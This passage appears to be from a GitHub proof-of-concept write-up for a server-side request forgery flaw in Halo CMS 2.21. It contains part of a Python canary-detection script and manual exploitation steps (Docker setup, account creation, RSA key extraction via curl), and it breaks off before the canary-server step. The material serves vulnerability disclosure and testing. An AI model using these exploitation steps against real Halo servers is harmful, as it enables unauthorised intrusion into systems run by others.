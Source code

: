 ```python
    time.sleep(3)
    
    # Analyze results
    if len(CanaryHandler.connections) > 0:
        print("🚨 SSRF CONFIRMED! Server made outbound request")
        self.analyze_ssrf_evidence()
        return True
    else:
        print("❌ No SSRF detected - check authentication and payload")
        return False
        
    def analyze_ssrf_evidence(self):
        """Analyze canary server hits for technical evidence"""
        for i, hit in enumerate(CanaryHandler.connections, 1):
            print(f"🎯 CANARY HIT {i}: {hit['method']} {hit['path']}")
            print(f"   From: {hit['client_ip']}:{hit['client_port']}")
            print(f"   Headers: {hit['headers']}")
```

### Manual Exploitation (Step-by-Step)

For manual testing without automated scripts, follow these commands:

#### Step 1: Start Halo CMS Instance

```bash
# Start Halo with Docker networking for testing
docker run --add-host=host.docker.internal:host-gateway -d -p 8090:8090 halohub/halo:2.21

# Wait for startup (check logs)
docker logs -f <container_id>
```

#### Step 2: Create User Account and Authenticate

```bash
# Setup Halo via web interface first:
# 1. Visit http://localhost:8090 
# 2. Complete initial setup
# 3. Create admin user account
# 4. Note username/password for API access
```

#### Step 3: Extract RSA Public Key

```bash
# Get RSA public key for password encryption
curl -s "http://localhost:8090/login/rsa-public-key" | jq -r '.publicKey' > public_key.txt

# Or extract from login page JavaScript if needed
curl -s "http://localhost:8090/console" | grep -oP 'publicKey.*?"([^"]+)"' | cut -d'"' -f3
```

#### Step 4: Set Up Canary Server for SSRF Proof
